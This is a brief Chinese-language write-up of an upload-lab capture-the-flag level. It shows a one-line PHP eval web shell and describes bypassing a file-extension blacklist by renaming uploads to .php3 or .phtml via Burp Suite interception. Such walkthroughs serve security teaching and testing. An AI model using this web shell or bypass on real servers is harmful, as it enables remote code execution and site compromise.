 ## 解题wp(By:独立团孙德胜Alan)
本pass可以修改PHP后缀绕过！

## 1.打开第三关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传.asp,.aspx,.php,.jsp后缀文件！

### 3.分析代码

![](./img/3.png)

#### 发现原来过滤.php，但.php3 、Phtml等都可以被解析，成功绕过

### 4.我们可以使用Burpsutie抓包，修改后缀，绕过验证。

![](./img/4.png)

![](./img/5.png)